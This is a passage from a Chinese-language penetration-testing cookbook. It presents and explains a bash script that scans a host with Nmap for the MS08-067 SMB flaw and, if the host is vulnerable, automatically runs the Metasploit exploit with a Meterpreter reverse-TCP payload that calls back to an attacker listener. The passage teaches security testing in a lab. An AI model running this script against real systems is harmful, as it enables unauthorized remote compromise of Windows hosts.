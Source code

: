 ### 工作原理

通过提供`grep`序列作为`for`循环要使用的值，此秘籍中的 bash 脚本基本上只是循环遍历该函数的输出。 通过独立运行该函数，可以看到它只提取对应运行 SMB 服务的主机的 IP 地址列表。 然后，`for`循环遍历这些 IP 地址，并对每个 IP 地址执行 NSE 脚本。

## 8.3 使用 MSF 漏洞利用的 Nmap MSE 漏洞扫描

在某些情况下，开发一个将漏洞扫描与利用相结合的脚本可能会有所帮助。 漏洞扫描通常会导致误报，因此通过执行漏洞扫描的后续利用，可以立即验证这些发现的正确性。 此秘籍使用 bash 脚本来执行`smb-check-vulns.nse`脚本，来确定主机是否存在 MS08-067 NetAPI 漏洞，并且如果 NSE 脚本显示如此，Metasploit 会用于 自动尝试利用它来验证。

### 准备

要使用本秘籍中演示的脚本，你需要使用 grepable 格式的 Nmap 输出结果。 这可以通过执行 Nmap 端口扫描并使用`-oA`选项输出所有格式，或`-oG`来专门输出 greppable 格式来获取。 在提供的示例中，多个系统在单个`/24`子网上扫描，这包括 Windows XP 和 Metasploitable2。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本将漏洞扫描和目标利用的任务串联到一起。 在这种情况下，`smb-checkvulns.nse`脚本用于确定系统是否容易受到 MS08-067 攻击，然后如果发现系统存在漏洞，则对系统执行相应的 Metasploit 漏洞利用。

```sh
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST> <LHOST> <LPORT>"; 
exit; fi

rhost=$1 
lhost=$2 
lport=$3

nmap --script smb-check-vulns.nse -p 445 $rhost --scriptargs=unsafe=1 -oN tmp_output.txt 
if [ $(grep MS08-067 tmp_output.txt | cut -d " " -f 5) = "VULNERABLE" ];
    then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";   
    msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/ meterpreter/reverse_tcp RHOST=$rhost LHOST=$lhost LPORT=$lport E; 
fi 
rm tmp_output.txt  
```

为了确保你能理解脚本的功能，我们将按顺序对每一行进行讲解。脚本中的前几行与本章前面讨论的脚本相同。第一行定义解释器，第二行测试输入，第三，第四和第五行都用于根据用户输入定义变量。在此脚本中，提供的用户变量对应 Metasploit 中使用的变量。 `RHOST`变量应该定义目标的 IP 地址，`LHOST`变量应该定义反向监听器的 IP 地址，`LPORT`变量应该定义正在监听的本地端口。然后脚本在正文中执行的第一个任务是，对目标系统的 IP 地址执行`smb-check-vulns.nse`脚本，它由`RHOST`输入定义。然后，结果以正常格式输出到临时文本文件。然后，`if ... then`条件语句与`grep`函数结合使用，来测试输出文件中是否有唯一的字符串，它表明系统存在漏洞。如果发现了唯一的字符串，则脚本会显式系统看起来存在漏洞，然后使用 Metasploit 框架命令行界面（MSFCLI）使用 Meterpreter 载荷执行 Metasploit 漏洞利用。最后，在加载漏洞利用后，使用`rm`函数从文件系统中删除 Nmap 临时输出文件。`test_n_xploit.sh bash`命令执行如下：

```
root@KaliLinux:~# ./test_n_xploit.sh 
Usage: #./script <RHOST> <LHOST> <LPORT>
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 此使用描述显示，该脚本应以参数`RHOST`，`LHOST`和`LPORT`执行。 这些输入值将用于 Nmap NSE 漏洞扫描和（如果有保证）使用 Metasploit 在目标系统上执行利用。 在以下示例中，脚本用于确定 IP 地址为`172.16.36.225`的主机是否存在漏洞。 如果系统被确定为存在漏洞，则会执行利用，并连接到反向 TCP Meterpreter 处理器，该处理其在 IP 地址`172.16.36.239`的 TCP 端口 4444 上监听系统。
